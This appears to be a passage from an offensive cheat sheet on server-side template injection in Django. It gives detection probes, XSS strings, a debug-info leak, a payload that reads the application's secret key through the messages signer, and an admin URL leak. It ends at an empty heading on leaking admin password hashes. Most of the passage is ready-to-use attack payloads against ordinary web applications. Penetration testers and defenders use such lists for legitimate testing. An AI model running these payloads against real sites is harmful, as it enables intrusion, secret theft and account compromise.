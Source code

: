 Django template language supports 2 rendering engines by default: Django Templates (DT) and Jinja2. Django Templates is much simpler engine. It does not allow calling of passed object functions and impact of SSTI in DT is often less severe than in Jinja2.

### Detection


```python
{% csrf_token %} # Causes error with Jinja2
{{ 7*7 }}  # Error with Django Templates
ih0vr{{364|add:733}}d121r # Burp Payload -> ih0vr1097d121r
```

### Django Templates for post-exploitation

```python
# Variables
{{ variable }}
{{ variable.attr }}

# Filters
{{ value|length }}

# Tags
{% csrf_token %}
```

### Cross-site scripting

```python
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}
```

### Debug information leak

```python
{% debug %}
```

### Leaking app’s Secret Key

```python
{{ messages.storages.0.signer.key }}
```

### Admin Site URL leak


```
{% include 'admin/base.html' %}
```

### Admin username and password hash leak

